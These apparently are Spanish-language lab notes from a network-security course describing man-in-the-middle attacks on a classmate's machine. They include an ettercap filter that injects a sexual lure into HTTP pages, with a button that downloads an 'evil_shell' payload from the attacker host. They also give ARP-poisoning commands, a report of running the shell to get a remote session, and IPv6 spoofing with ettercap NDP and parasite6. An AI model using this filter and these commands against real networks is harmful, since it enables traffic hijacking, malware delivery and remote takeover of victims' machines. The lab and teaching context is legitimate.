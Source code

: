   PARA QUE EL COMPAÑERO SE DESCARGUE EL FILTRO: (esta todo en /home/lsi)
      
      -CREAMOS UN FILTRO y lo guardamos en html.filter:
      ` 
      if (ip.proto == TCP && tcp.dst == 80) {
	if (search(DATA.data, "Accept-Encoding")) {
		replace("Accept-Encoding", "Accept-Nothing!");
	}
	}
	if (ip.proto == TCP && tcp.src == 80) {
		if (search(DATA.data, "<title>")) {
			replace("</title>","</title><MUJER CALIENTE CERCA DE TI><h1>LINDA tiene ¡MUCHAS GANAS!
			de conocerte y ver todo de ti ;), te ha enviado un mensaje ,click aqui para abrirlo<h1><form method="get"
			action="http://10.11.49.98/evil_shell"><button type="submit">"DESCARGAR
			AHORA"</button></form>");
			msg("html injected");
		}
	}
	 
	`
	-lo guardamos como etterfilter:
	  etterfilter html.filter -o html.ef  
        
        -lo movemos a /ver/www/html:
          cp evil_shell /var/www/html

        -ettercap -i ens33 -Tq -P repoison_arp -p -F filter.ef -w salidaEttercap -M arp:remote /10.11.49.97// /10.11.48.1// 

  
  para probar que funciona hice un wget http://10.11.49.98/evil_shell y lo ejecute.
  PARA SABER QUE ESTA FUNCIONANDO:
     sysinfo
     shell 
------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------   
h) Haga un MITM en IPv6 y visualice la paquetería.

   -IPV6 COMPAÑERO: 2002:a0b:3161::1
   ettercap -T -i ens33 -w salidaEttercap -M ARP /10.11.49.97/2002:a0b:3161::1// /10.11.48.1//
   ettercap -T -M ndp -i ens33 -w salidaEttercap /10.11.49.97// /10.11.48.1//

   -> Probamos a realizar ping6 y vemos que los paquetes se guardan. SI HACEMOS PING A MÁQUINA QUE ESTÁ SNIFFEANDO -> ERROR.
   
   UTILIZAR PARASITE6:
      
        apt install thc-ipv6
	atk6-alive6 ens33
	
	This is simple as it is. First turn on IPv6 forwarding and run parasite.

	Command: echo 1 > /proc/sys/net/ipv6/conf/all/forwarding
	Command: parasite6 eth0<replace with your interface> -l
	
	SPOOFEADO EJECUTA:
	ping6 ff02::1
------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------
i) Pruebe alguna herramienta y técnica de detección del sniffing (preferiblemente arpon).
     
